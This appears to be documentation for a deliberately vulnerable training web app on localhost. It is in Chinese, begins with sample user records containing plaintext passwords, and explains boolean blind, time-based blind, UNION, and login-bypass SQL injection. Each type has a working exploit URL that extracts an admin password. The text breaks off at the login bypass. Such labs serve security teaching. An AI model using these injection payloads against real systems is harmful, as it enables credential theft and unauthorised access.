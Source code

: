         <password>gandalf</password>
    </user>
    <user id="3">
        <username>svargas</username>
        <name>sandra</name>
        <surname>vargas</surname>
        <password>phest1945</password>
    </user>
</users>

4 漏洞类型
4.1 注入漏洞
4.1.1 Blind SQL Injection (boolean)

基于布尔型的盲注: HTTP请求的响应体中不会明确的返回SQL的错误信息, 当把参数送入程序查询时，并且在查询条件为真的情况下返回正常页面，条件为假时程序会重定向到或者返回一个自定义的错误页面。

漏洞地址:    
http://127.0.0.1:65412/?id=2

EXPLOIT:

http://127.0.0.1:65412/?id=2 AND SUBSTR((SELECT password FROM users WHERE name='admin'),1,1)='7'`

4.1.2 Blind SQL Injection (time)

基于时间型的盲注: 与布尔型盲注类似, 当把参数送入程序查询时，通过判断服务器响应时所花费的时间, 如果延迟大于等于Payload中设定的值时就可判断查询结果为真, 否则为假。不同的BDMS使用的方法和技巧略有不同。

漏洞地址:    
http://127.0.0.1:65412/?id=1

EXPLOIT:

http://127.0.0.1:65412/?id=1 and (SELECT (CASE WHEN (SUBSTR((SELECT password FROM users WHERE name='admin'),2,1)='e') THEN (LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(300000000))))) ELSE 0 END))

    这个漏洞环境用到了 SQLITE3 中的 CASE 窗口函数与 RANDOMBLOB 来实现的基于时间的盲注。        
    MSQL: sleep(2)        
    MSSQL: WAITFOR DELAY '0:0:2'

4.1.3 UNION SQL Injection

基于联合查询注入: 使用UNION运算符用于SQL注入，UNION运算符是关联两个表的查询结果。攻击者故意伪造的恶意的查询并加入到原始查询中, 伪造的查询结果将被合并到原始查询的结果返回，攻击者会获得其他表的信息。

漏洞地址:    
http://127.0.0.1:65412/?id=2,

EXPLOIT:

http://localhost:65412/?id=2 UNION ALL SELECT NULL, NULL, NULL, (SELECT id||','||username||','||password FROM users WHERE username='admin')

4.1.4 Login Bypass

登陆绕过: 这里是基于SQL注入的一种绕过方式。登陆验证的逻辑没有验证和过滤输入字符直接带到sql进行查询,所以产生漏洞。

漏洞地址:    
http://localhost:65412/login?username=&password=
